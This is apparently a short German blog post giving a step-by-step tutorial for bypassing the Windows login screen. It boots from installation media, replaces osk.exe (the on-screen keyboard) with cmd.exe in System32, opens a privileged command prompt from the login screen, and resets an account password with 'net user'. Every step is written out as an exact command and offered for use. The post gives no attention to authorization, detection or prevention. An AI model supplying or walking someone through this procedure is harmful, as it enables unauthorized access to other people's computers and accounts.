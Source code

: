 ```yaml
---
layout:     post
title:      Windows Login umgehen (backdoor)

date:       2021-05-01
author:     user

summary:    Windows Login umgehen (backdoor)
categories: Login
thumbnail:  cogs
tags:
            - Windows
            - Login
            - Passwort
            - umgehen
            - backdoor
            - Hintertür
---
```


## Windows Login umgehen (backdoor)

Was wir brauchen:

1. Original Image von Windows (.iso)
2. Bootable USB


Vorgehensweise:

1. Von Windows-USB-Stick booten
2. Computerreparaturoptionen
    ![Thumper](https://i.imgur.com/cgOS11f.jpg) 
3. Problembehandlung
    ![Thumper](https://i.imgur.com/XZsOGe0.jpg)
4. Eingabeaufforderung
    ![Thumper](https://i.imgur.com/MdtXTKA.jpg)
5. Auf C-Platte wechseln
```
C:
```
6. Dann in den Windows Ordner
```
cd Windows\System32
```
7. osk = on screen keyboard (Bildschirmtastatur)
```
dir osk.exe
```
8. Original umbenennen
```
rename osk.exe osk.orig.exe
```
9. cmd.exe zu osk.exe kopieren
```
copy cmd.exe osk.exe
```
10. überprüfen
```
dir osk*
```
10. PC neustartem
11. Erleichterte Bedienung > Bildschirmtastatur - Es wird allerdings cmd.exe gestartet weil wir diese ja zuvor ausgetauscht haben
12. net user *USERNAME* *NEUES PW*
```
net user eski 1234
```
13. Einloggen
